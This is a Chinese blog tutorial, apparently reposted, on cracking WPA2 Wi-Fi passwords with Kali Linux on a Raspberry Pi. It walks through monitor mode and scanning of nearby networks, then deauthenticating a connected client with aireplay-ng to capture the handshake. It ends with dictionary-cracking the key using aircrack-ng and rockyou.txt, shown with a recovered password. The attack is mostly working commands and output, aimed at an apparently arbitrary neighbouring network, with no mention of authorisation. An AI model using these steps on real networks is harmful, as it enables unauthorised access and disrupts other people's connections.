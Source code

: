 ```yaml
---
layout: layout
title: 【RaspberryPi】树梅派学习笔记-使用kali破解WIFI
author: 吴楚衡
tags:
  - RaspberryPi
categories:
  - linux
date: 2018-06-14 00:14:00
---
```

#### 1. 说明
 &emsp;树莓派3B已经成为arm主流开发板，不仅有成熟完善的raspbian系统，还可以安装Ubuntu、Centos、Kali系统，因此，树莓派可以做各种各样的事，接下来，我就介绍下树莓派破解Wi-Fi密码的过程。
 
 ---
 <!--more-->
 
 #### 2.安装kali
 &emsp;因为Kali是一个专门的网络渗透系统，自带很多工具，所以就采用直接安装Kali来使用airmon-ng工具。 
下载地址：https://www.offensive-security.com/kali-linux-arm-images/

> 下载下来是kali-2017.3-rpi3-nexmon.img.xz文件。 
> 在Windows下直接使用解压缩软件解压。 
> 在Linux下用 xz -d kali-2017.3-rpi3-nexmon.img.xz 解压。
> 得到的img文件就可以直接使用了，将其写入TF卡即可。

---

#### 3.升级Kali
> 将树莓派插上显示屏和鼠标键盘。 
> 用户：root 
> 密码：toor

``` bash
# 打开Terminal，执行
echo "deb http://mirrors.tuna.tsinghua.edu.cn/kali kali-rolling main contrib non-free" > /etc/apt/sources.list
apt update && apt upgrade -y

# 安装完整版kali
# apt install kali-linux-all

# 安装Extend Filesystem（可选）
# apt install gparted -y

# 安装xrdp [不能插上显示屏使用]
# apt install xrdp
# 开机自启
# update-rc.d xrdp enable
```
---

#### 4.开始破解

> 破解过程如下：
> - 找到设备iwconfig并开启监控
> - 查看附近的Wi-Fi，并选择一个
> - 攻击并开始抓包，得到handshake
> - 下载字典，开始破解

``` bash
# 查看得到网卡名为wlan0：
iwconfig
# 内容如下：
eth0      no wireless extensions.

wlan0     IEEE 802.11  ESSID:off/any  ...

# 找到Wi-Fi代号为wlan0，接着启动monitor模式：
airmon-ng start wlan0

# 查看附近的无线网络
airodump-ng wlan0mon
# 内容如下：
BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID                                             

 F2:B4:29:E5:1C:74   -1        0       20    0   6  -1   OPN              <length:  0>                                      
 94:77:2B:47:92:1C  -74      119     1842   49   7  54e  WPA2 CCMP   PSK  HUAWEI-RF4BXM                                  
 14:75:90:DB:90:91  -81       53        0    0  11  54e. WPA2 CCMP   PSK  TP-LINK_DB9091    

# 选择一个Wi-Fi，复制BSSID，记下CH信道，组合如下命令开始攻击抓包
# [演示选择TP-Link：airodump-ng wlan0mon --bssid 复制的BSSID -c CH信道 -w 保存名]
airodump-ng wlan0mon --bssid 14:75:90:DB:90:91 -c 11 -w wificrack

# 可以看到，有一台设备连接到该路由WiFi，但此时没有设备连入，故抓不到完整4步握手包。
# 若抓不到4步握手，则通过以下命令断开设备与WiFi的连接，使其重新建立连接从而可以抓取四步握手信息：
# 新开一个Terminal窗口：[参数：攻击2次，路由ssid和设备Mac地址]
aireplay-ng -0 2 -a 14:75:90:DB:90:91 -c 54:DC:1D:27:0D:50 wlan0mon

# 原窗口得到握手包：内容如下：
 CH 11 ][ Elapsed: 5 mins ][ 2018-01-29 05:52 ][ WPA handshake: 14:75:90:DB:90:91                                           

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID                                         

 14:75:90:DB:90:91  -71  93     3136       43    0  11  54e. WPA2 CCMP   PSK  TP-LINK_DB9091                                

 BSSID              STATION            PWR   Rate    Lost    Frames  Probe                                                  

 14:75:90:DB:90:91  54:DC:1D:27:0D:50  -39    0e- 0e     0       44  TP-LINK_DB9091 

通过ls wificrack*命令查看抓到的信息保存的文件（多的wpa包是之前做测试保存下来的）：

这里看最新的那个即wifi-04即可，可以看到总共有4个。

# 后面使用Kali Linux中默认存在的字典，目录[需要使用命令来解压]
/usr/share/wordlists/rockyou.txt.zip
# 这里顺便记录一下Kali中几个常用的字典文件的位置：
/usr/share/john/password.lst
/usr/share/wfuzz/wordlist
/usr/share/ wordlists

# 如果没有该文件，就需要下载：
wget http://scrapmaker.com/data/wordlists/dictionaries/rockyou.txt

# 破解：[rockyou.txt是字典、wifi-01.cap是抓包]
aircrack-ng -w rockyou.txt wificrack-01.cap
# 结果如下：[密码为：12345678]
                                 Aircrack-ng 1.2 rc4                                                                        

      [00:00:00] 4/4 keys tested (31.56 k/s)                                                                                

      Time left: 0 seconds                                     100.00%                                                      

                           KEY FOUND! [ 12345678 ]                                                                          
# 关闭wlan0无线网卡monitor mode
airmon-ng stop wlan0mon
```

注:本文转自[树莓派3B+ 破解Wi-Fi密码](https://blog.csdn.net/kxwinxp/article/details/79187472),亲测有效^-^ !!!


 


